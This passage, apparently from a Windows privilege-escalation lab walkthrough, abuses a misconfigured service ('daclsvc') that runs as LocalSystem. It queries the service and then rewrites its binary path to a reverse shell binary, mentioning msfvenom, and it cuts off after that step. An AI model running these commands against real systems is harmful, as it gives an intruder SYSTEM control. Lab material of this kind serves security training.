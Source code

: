 We can:

* SERVICE_CHANGE_CONFIG
* SERVICE_START
* SERVICE_STOP

We can change the service config and (re)start the service, which means we should be able to exploit it.


Query the current service configuration:

```default
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE                : 10 WIN32_OWN_PROCESS
        START_TYPE          : 3 DEMAND_START
        ERROR_CONTROL       : 1 NORMAL
        BINARY_PATH_NAME    : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP    :
        TAG                 : 0
        DISPLAY_NAME        : DACL Service
        DEPENDENCIES        : 
        SERVICE_START_NAME  : LocalSystem
```

3 DEMAND_START means it needs to be started manually

LocalSystem indicates that it should be run with the permissions of the SYSTEM user.

BINARY_PATH_NAME is the binary that will be executed.


Check the current state of the service:

```default
sc query daclsvc

SERVICE_NAME: daclsvc
        TYPE                : 10 WIN32_OWN_PROCESS
        STATE               : 1 STOPPED
        WIN32_EXIT_CODE     : 1077 (0x435)
        SERVICE_EXIT_CODE   : 0 (0x0)
        CHECKPOINT          : 0x0
        WAIT_HINT           : 0x0
```

The service is currently stopped.


Change the BINARY_PATH_NAME to the path of a reverse shell binary (e.g. created by msfvenom).

```default
sc config daclsvc binpath= "\"C:\PrivEsc\serverse.exe\""
[SC] ChangeServiceConfig SUCCESS
```
